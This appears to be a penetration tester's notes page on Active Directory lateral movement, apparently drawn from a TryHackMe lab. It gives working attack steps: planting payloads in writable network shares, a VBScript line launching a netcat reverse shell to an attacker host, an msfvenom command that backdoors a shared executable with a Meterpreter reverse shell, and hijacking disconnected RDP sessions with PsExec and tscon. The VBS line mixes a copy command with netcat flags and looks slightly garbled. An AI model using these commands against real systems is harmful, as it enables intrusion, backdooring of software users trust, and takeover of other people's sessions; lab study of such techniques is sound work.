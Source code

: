 #  AD Lateral Movement - Abusing User Behaviour


## Abusing Writable Shares

It is common to find network shares for legitmate user to perform daily tasks, if these shares are writable then planting files to force users into executing an arbituary payload.
1. Find of shortcut to a script or executable hosted on the network share
	 - Rationale: Administrator can maintain it on the share and Users do not have to copy or install it.
2. Check Writtability
3. Modify by adding payload
4. If users opens the shortcut, the executable is copied to that user's workstation's `%temp%` folder. 


## Backdooring .vbs Script

If a shared resource is a VBS Script, copy a some reverse shell onto the same share and inject the below into the VBS script:
```vb
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\<share host>\myshare\nc64.exe -e cmd.exe <attacker_ip> 1234" 0, True
```
The executable is copied to the user's workstation's `%temp%` folder that interacted with the shared VBS script. 

## Backdooring .exe Files

If a shared file is a Windows binary, download it and backdoor it with msfvenom then reupload.
```bash
msfvenom -a x64 --platform windows -x shared-executable.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o backdoor.exe
```


## RDP hijacking

**Requires**
- SYSTEM privileges on Windows Server <= 2016 
- [[Sysinternals-Psexec]] 
When Administrators connect to a machine and close the RDP client instead of logging off then machine the session will remain open on the server indefinitely.

Open up a cmd.exe with `PsExec64.exe`
```powershell
PsExec64.exe -s cmd.exe
```
List existing RDP sessions
```batch
C:\> query user
USERNAME              SESSIONNAME       ID STATE   IDLE TIME  LOGON TIME
administrator         rdp-tcp#1         1  Active          .  4/1/2022 4:09 AM
baduser                                 2  Disc            .  4/6/2022 6:51 AM
```

The `baduser` has left a RDP session open, i.e any session with Disc state is left open and not currently in use. With the session's `ID` we hijack it sending it with the `/dest:` to our current RDP `SESSIONNAME` 
```powershell
tscon 2 /dest:rdp-tcp#1
```


## References

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)